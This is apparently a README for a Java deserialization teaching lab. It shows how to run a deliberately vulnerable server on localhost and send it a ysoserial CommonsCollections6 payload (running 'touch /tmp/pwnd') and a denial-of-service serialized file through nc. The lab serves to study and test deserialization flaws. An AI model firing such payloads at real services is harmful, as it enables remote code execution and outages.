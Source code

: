 # Java-Deserialization-Basics

```sh
javac Vulnerable.java  
java Vulnerable 12345 // listens on port 12345  
```
or for testing ysoserial payloads  
```sh
java -cp .:lib/* Vulnerable 12345  
java -jar lib/ysoserial.jar CommonsCollections6 "touch /tmp/pwnd" | nc 127.0.0.1 12345  
```    
SerialDOS is simply https://gist.github.com/coekie/a27cc406fc9f3dc7a70d changed so it generates file dos.ser  
```sh
javac SerialDOS.java  
java SerialDOS  
cat dos.ser | nc 127.0.0.1 12345  
```    
    
There is no ysoserial.jar in lib/ because it's almost 50MB large. Use your own or download new release from
https://github.com/frohoff/ysoserial  
